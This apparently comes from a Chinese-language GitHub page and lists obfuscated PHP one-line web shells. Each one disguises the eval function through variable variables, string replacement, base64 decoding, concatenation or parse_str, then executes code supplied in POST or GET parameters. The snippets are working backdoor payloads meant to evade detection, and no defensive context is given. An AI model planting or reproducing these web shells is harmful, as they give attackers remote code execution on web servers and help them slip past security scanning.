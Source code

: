 ```php
//变量的嵌套
<?php
$bb="eval";
$aa="bb";
$$aa($_POST['a']);
?>
```

```php
//字符串的替换
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

```php
//base64
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

```php
//利用.进行字符拼接
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```

```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
//parse_str生成一个变量a,其值为eval.
```

### 结合其他数据来源:

- GET:

```php
<?php $_GET[a]($_GET[b]); ?>
//a=eval&b=$_POST['a']

<?php @eval( $_GET[$_GET[b]])>
//b=cmd&cmd=phpinfo()
```

